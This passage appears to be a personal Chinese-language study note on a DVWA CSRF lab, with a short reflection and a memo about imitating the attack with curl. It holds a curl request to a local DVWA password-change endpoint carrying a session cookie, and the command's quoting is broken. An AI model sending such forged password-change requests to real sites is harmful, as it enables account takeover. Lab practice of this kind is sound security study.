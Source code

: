![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2019.png)

### 心得

現實中可能不容易碰到直接用 GET 跳轉的方式，也要留意不要讓連結執行的過程被呈現出來 XD

因此其他比較低調的方式就值得多實驗看看了

## memo

### 試著用 curl 模擬 CSRF 的過程

如果是直接用 cURL 的方式送出 GET 會沒有效果，密碼沒有被更新，看來無法直接偷渡 browser 的 cookie 給 curl XD

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2020.png)

```bash
curl -L "http://localhost:8086/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change# -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: zh-TW,zh;q=0.8,en;q=0.5,en-US;q=0.3' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8086/vulnerabilities/csrf/' -H 'Cookie: PHPSESSID=f5ndqiqvp4u92i4thpurq2o1k7; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1"
```
